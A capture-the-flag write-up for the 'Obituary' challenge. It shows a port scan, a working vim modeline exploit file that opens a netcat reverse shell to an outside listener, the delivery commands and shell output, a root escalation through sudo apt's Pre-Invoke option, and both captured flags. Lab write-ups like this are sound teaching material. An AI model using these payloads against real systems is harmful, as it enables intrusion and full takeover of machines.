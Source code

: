 # Obituary 1+2
## Description:
```
Hey, shoot me over your latest version of the code. I have a simple nc session up, just pass it over when you're ready.

You're using vim, right? You should use it; it'll change your life. I basically depend on it for everything these days!

NOTE: This challenge is two parts. Flag one belongs to mwazoski. Flag two belongs to root.
```

This means, that this guy has a service listening and opens everything passed to the service with `vim`. After searching for remote code execution vulnerabilities for `vim` I found this one: https://www.exploit-db.com/exploits/46973. All I had to do was to write a file triggering the exploit and pass it over to the service. But first, let's find the service using `nmap`.

## Port scan:
```
# nmap 172.30.0.2
...
Nmap scan report for 172.30.0.2
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
4321/tcp open  rwhois
...
```

## Exploit: 
```
# cat reverse_shell.txt
:!nc -nv 172.30.0.14 4444 -e /bin/sh||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="
```

## Setup listener and trigger exploit:
```
# nc 172.30.0.2 4321 < reverse_shell.txt

# nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.30.0.14] from (UNKNOWN) [172.30.0.2] 37646
id
uid=1000(mwazowski) gid=1000(mwazowski) groups=1000(mwazowski)
cd /home/mwazowski
cat flag.txt
gigem{ca7_1s7_t0_mak3_suRe}
```

## Privilege Escalation:
```
mwazowski@94458050976a:~$ cat note_to_self.txt 
Apparently my packages are out of date. ITSEC is really throwing a fit about me
needing to update since red team popped my box.

I'm sending them my installed packages. I have no idea how these guys got root
on my machine, my password is like 60 characters long. The only thing I have
as nopasswd is apt, which I just use for updates anyway.

mwazowski@94458050976a:~$ sudo -l
Matching Defaults entries for mwazowski on 94458050976a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mwazowski may run the following commands on 94458050976a:
    (root) NOPASSWD: /usr/bin/apt
```

Great! We can run `/usr/bin/apt` as root without providing any password! Checking https://gtfobins.github.io/gtfobins/apt/ reveals, that you can escalate privileges with the following:

```
mwazowski@94458050976a:~$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cat flag.txt
gigem{y0u_w0u1d_7h1nk_p3opl3_W0u1d_Kn0W_b3773r}
```
